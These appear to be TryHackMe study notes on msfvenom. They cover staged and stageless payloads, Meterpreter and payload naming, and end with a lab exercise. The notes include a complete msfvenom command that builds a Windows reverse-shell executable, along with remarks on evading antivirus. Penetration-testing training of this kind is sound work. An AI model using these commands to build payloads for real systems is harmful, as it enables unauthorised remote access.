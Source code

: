 Part of the metasploit framework, msfvenom is used to generate code for, primarily reverse and bind shells. While being used for lower level exploits such as hexadecimal shellcode for buffer overflow exploits, it can also be used to generate payloads in various formats such as `.exe`, `.aspx`, `.war`, `.py`. The standard syntax for msfvenom is as follows `msfvenom -p <payload> <options>`. As an example, a Windows x64 reverse shell as an exe would be generated with the command `msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>`

* -f (format) - Specifies the output format
* -o (file) - The output location and filename
* LHOST - The IP to connect back to
* LPORT - The port on the local machine to connect back to

---

#### Staged and Stageless Payloads

* Staged payloads are sent in two parts. The first is called the stager. This code is executed on the server itself and connects back to the waiting listener, however it does not contain any reverse shell code by itself. The reverse shell code is downloaded when the stager is activated. Staged payloads require a special listener, usually the metasploit multi/handler.
* Stageless payloads are entirely self contained in that there is one piece of code that when executed will send a shell back immediately to the waiting listener.

Stageless payloads tend to be easier to use and catch; however, they are also bulkier, and are easier for an antivirus or intrusion detection program to discovery and remove. Staged payloads are harder to use, but the initial stager is a lot shorter, and is sometimes missed by antivirus software.

---

#### Meterpreter

The meterpreter shell is metasploits own brand of fully featured shell. They are also completely stable and contain functionality on their own including file upload and download. To use metasploits port exploitation tools then a meterpreter shell must be used but it is important to note that to use them they must be caught in metasploit. They are also banned in many certification exams.

#### Payload Naming Conventions

The basic naming convention for msfvenom is as follows `<OS>/<arch>/<payload>` or `linux/x86/shell_reverse_tcp`. The exception to this convention is Windows 32bit targets. For these, the arch is not specified `windows/shell_reverse_tcp`

Stageless payloads are denoted by underscores in the name `shell_reverse_tcp` is stageless while `shell/reverse_tcp` is a staged payload which is denoted by the extra forward slash. These rules also apply to meterpreter payloads.

---

Payloads can be searched with `msfvenom --list payloads` and grep can be used to filter for the ones that you would like.

**Questions**

    1. Generate a staged reverse shell for a 64 bit Windows target, in a .exe format using your TryHackMe tun0 IP address and a chosen port.

